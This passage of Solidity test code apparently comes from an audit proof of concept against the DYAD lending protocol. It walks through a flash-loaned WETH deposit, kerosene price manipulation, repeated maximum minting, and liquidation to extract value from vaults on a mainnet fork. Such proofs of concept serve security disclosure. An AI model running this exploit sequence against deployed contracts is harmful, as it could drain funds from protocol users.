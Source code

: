 ```
    // Add the weth vault to note 2 and deposit the flash loaned weth    
    contracts.vaultManager.add(id2, address(contracts.ethVault));
    ERC20(MAINNET_WETH).approve(address(contracts.vaultManager), 1000 ether);
    contracts.vaultManager.deposit(id2, address(contracts.ethVault), 1000 ether);

    uint id2loan = exogenousBorrowingPowerDyad(1000 ether, 0);
    contracts.vaultManager.mintDyad(id2, id2loan, address(this));

    console2.log("Metrics id2 before id1 borrows");
    displayMetrics(id2);
    console2.log("Maximum Kerosine Price: %s", contracts.unboundedKerosineVault.assetPrice());

    // Obtain kerosene, we would buy this from a DEX.
    vm.prank(MAINNET_OWNER);
    ERC20(MAINNET_KEROSENE).transfer(address(this), 100_000 ether);

    // Add the kerosene vault to note 2 and deposit kerosene
    contracts.vaultManager.addKerosene(id2, address(contracts.unboundedKerosineVault));
    ERC20(MAINNET_KEROSENE).approve(address(contracts.vaultManager), 100_000 ether);
    contracts.vaultManager.deposit(id2, address(contracts.unboundedKerosineVault), 100_000 ether);

    console2.log("Metrics id2 after depositing kerosine");
    displayMetrics(id2);

    // Mint dyad from note 2 to the max again
    uint kerosinePower = 1e18 * (kerosineToUsd(100_000 ether) * 1e10) / 1.5e18 - 1 ether;
    console2.log("Kerosine power: %s", displayDecimals(kerosinePower, 18));
    contracts.vaultManager.mintDyad(id2, kerosinePower, address(this));

    console2.log("Metrics id2 after kerosine borrow");
    displayMetrics(id2);

    // Mint dyad from note 1 to the max to get note 2 underwater
    uint id1loan = exogenousBorrowingPowerDyad(10 ether, 0);
    console2.log("id1loan: %s", id1loan);
    contracts.vaultManager.mintDyad(id1, id1loan, address(this));

    console2.log("Metrics id2 after id1 borrows");
    displayMetrics(id2);

    // Liquidate note 2
    contracts.vaultManager.liquidate(id2, id3);

    console2.log("Metrics id2 after first liquidation");
    displayMetrics(id2);

    // Repay note 1
    contracts.vaultManager.burnDyad(id1, id1loan);

    // Mint dyad from note 2 to the max again
    uint remainingEth = contracts.ethVault.id2asset(id2);
    id2loan = exogenousBorrowingPowerDyad(remainingEth, 0);
    contracts.vaultManager.mintDyad(id2, id2loan, address(this));

    console2.log("Metrics id2 after second dyad borrow");
    displayMetrics(id2);

    kerosinePower = 1e18 * (kerosineToUsd(100_000 ether) * 1e10) / 1.5e18 - 1 ether;
    console2.log("Kerosine power: %s", displayDecimals(kerosinePower, 18));
    contracts.vaultManager.mintDyad(id2, kerosinePower, address(this));

    console2.log("Metrics id2 after second kerosine borrow");
    displayMetrics(id2);
```